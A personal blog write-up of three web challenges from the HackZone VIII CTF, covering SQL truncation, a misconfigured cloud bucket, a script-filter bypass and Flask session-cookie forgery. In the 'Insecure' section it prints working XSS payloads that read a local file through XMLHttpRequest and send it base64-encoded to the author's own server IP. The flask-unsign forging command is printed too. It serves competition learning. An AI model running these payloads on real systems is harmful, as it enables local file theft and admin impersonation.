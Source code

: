 ```yaml
---
title: HackZone VIII - Web Writeups
summary: Web writeups for Hackzone VIII CTF 
date: "2020-04-12T00:10:44Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


Hello guys , HackZone VIII CTF has ended this morning , i participated with my team Fword and we got the 4th place, here is my writeup for the three web challenges I managed to solve :D

![TASK](https://imgur.com/xrafZEo.png)

# **BabyWeb1(722pts)(10 solves)** #

![TASK](https://imgur.com/zu1XKQe.png)

In this task we are given a platform where we can share a picture with some msg and it generates a password for us to access these details ,there are already some pictures posted by the author, so we have to access them and maybe the flag in the details of one of them.

![TASK](https://imgur.com/9hXA90t.png)

Trying to post a picture with the same title of the posted pictures will be denied so let's try SQL truncation attack and submit a picture with these details :

- Title : "naaah                                                                 "
- url : "anything here"
-msg : "anything"

And Bingo it passed the title check and we got a password :D 

![TASK](https://imgur.com/rywyGg4.png)

Using this password will give us the details of the picture and the flag if we check the source code :D

![TASK](https://imgur.com/bpK7N8F.png)

# **Insecure(884pts)(4 solves)** #

![TASK](https://imgur.com/ehpXH1T.png)

I really had a lot of fun playing this task ,we are given a text to image converter website , as the description said the first part of the flag is due to a misconfiguration so the first thing i thinked about is a bucket misconfig and it was the case.

![TASK](https://imgur.com/lISjgSe.png)

Accessing this url will give us the first part (The same bucket where Hackzone Logo is stored)
> https://storage.googleapis.com/hzviii/flag_part1.txt

**1st Part:** HZVIII{Buck3t_M1sc0nf1gur4t1on_

Let's start the second part which is the most interesting , we have to read this file /psycor/flag_part2.txt , so the first thing i thinked about was abusing an SSRF and read local files .
It was a php website so firstly i thinked that maybe we will use an exploit in the famous GD library of php or something like that but it was only a rabbit hole xd

After some enumeration i discovered that we have an XSS here , so things are becoming clearer maybe it's using phantom Js to convert this text .

![TASK](https://imgur.com/UAn5UOk.png)

Our scenario now is revealed , we'll exploit this XSS vulnerability to read local files , we have also to mention that the script tag was filtered .
I passed a lot of time in this part and tried a lot with basically this payload but i didn't get anything :

```
<img src="aa" onerror="function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://100.26.206.184:1234/?a='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener('load', reqListener); 
oReq.open('GET', 'file:///psycor/flag_part2.txt'); 
oReq.send();">
```
I have than tried to read it using iframes but i didn't have any results :'( 

![TASK](https://imgur.com/bZInnkb.png)

This was really painful xd i thinked that maybe using onerror attribute , phantom Js won't wait until XMLHttpRequest fetch the content of the file , so maybe we have to use the script tag ? But it's filtered so all we have to do is bypass this filter :D

![TASK](https://imgur.com/ySPcXuS.png)

As we see in the picture below , the script word is stripped so what if we enter :
> scscriptript

The script word will be stripped and Bingo we will have our script tag , let's try it 

![TASK](https://imgur.com/OqHP5I5.png)

Yeees It workeed :D so now how will we use the script tag ? we will simply try to convert this line now :

```html
<scscriptript src="http://100.26.206.184:1234/test.js"></scscriptript>
```
**NOTE :** It's my VPS IP so DONT use it :D

And i hosted the test.js file in my server , this is its content , we will try to read the file using XMLHttpRequest so basically the same payload as below

```javascript
function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://100.26.206.184:1234/?a='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///psycor/flag_part2.txt"); 
oReq.send();
```

And yees we received an answer :D

![TASK](https://i.imgur.com/hTbrKXX.png)

Base64 decoding it will give us the last part of the flag :D I really enjoyed this task so thank you @PsycoR for your efforts 

# **Calculator(722pts)(10 solves)** #

This task was pretty obvious , we have x and y parameters and the web app calculates their division , if we enter any character we will have the error page and Bingo debug mode is true :D

![TASK](https://imgur.com/iLqircE.png)

We will now leak the Secret key of the app and sign a session cookie that has the attribute "is_admin" set to True .

![TASK](https://imgur.com/jTwwuLm.png)

To do that we will use flask-unsign tool with the following command :

> flask-unsign --sign --cookie "{'is_admin': True}" --secret 'DeRz7YDZ5nCDqR3vt33QpuhkrSYLmuX8' --legacy

![TASK](https://imgur.com/NIEbykl.png)

And changing the cookie will give us the flag !

![TASK](https://imgur.com/xOhQh4y.png)

I want to thank the organizers for this cool CTF and nice tasks, unfortunately i didn't have enough time to look at pwn tasks :( I really have to sleep now so if you have any questions contact me on Twitter @BelkahlaAhmed1

